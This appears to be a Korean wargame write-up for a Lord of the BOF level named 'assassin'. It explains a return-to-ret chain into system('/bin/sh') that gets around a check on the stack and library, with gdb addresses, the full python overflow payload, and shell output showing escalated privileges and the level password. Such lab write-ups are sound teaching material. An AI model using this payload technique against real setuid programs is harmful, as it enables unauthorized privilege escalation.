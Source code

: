 ``` bash2
        // buffer+sfp hunter
        memset(buffer, 0, 44);
}
```

### Solution

library로 점프하지 못하기 때문에 다른 방법을 사용해야한다. 쉽게 생각해보자. 첫번째 ret을 통해 다시한번 ret을 실행할 수 있는 위치로 점프한다고 생각해보자. 그러면 두번째 ret은 ret주소를 넣어준 다음 위치의 값으로 점프하게 될 것이다.

``` notepad
낮은 주소
              |   esp   |
-------------------------
first ret     |  &ret   |
-------------------------
second ret    | &system |
-------------------------
systemret     | dummy   |
-------------------------
system argv1  | &/bin/sh|
-------------------------
높은 주소
```

이런 식으로 스택을 구성하게 된다면 체크하는 처음 점프하는 영역이 stack, library 영역이 아니면서 system("/bin/sh")를 실행할 수 있다.

/bin/sh 주소는 이전 문제와 마찬가지로 찾았다.

필요한 주소를 찾으면 다음과 같다.

``` bash2
0x400fbff9 = /bin/sh
(gdb) print system
$1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
0x804851e <main+174>:	ret
```

payload는 다음과 같다.
"A" * 44 (dummy) + ret 주소 + system 주소 + "AAAA" + /bin/sh 주소

/home/giant/assassin `python -c 'print "A"*44+"\x1e\x85\x04\x08"+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"'`

``` bash2
[giant@localhost giant]$ /home/giant/assassin `python -c 'print "A"*44+"\x1e\x85\x04\x08"+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA??@AAAA廈@
bash$ id
uid=514(giant) gid=514(giant) euid=515(assassin) egid=515(assassin) groups=514(giant)
bash$ my-pass
euid = 515
pushing me away
```

# assassin
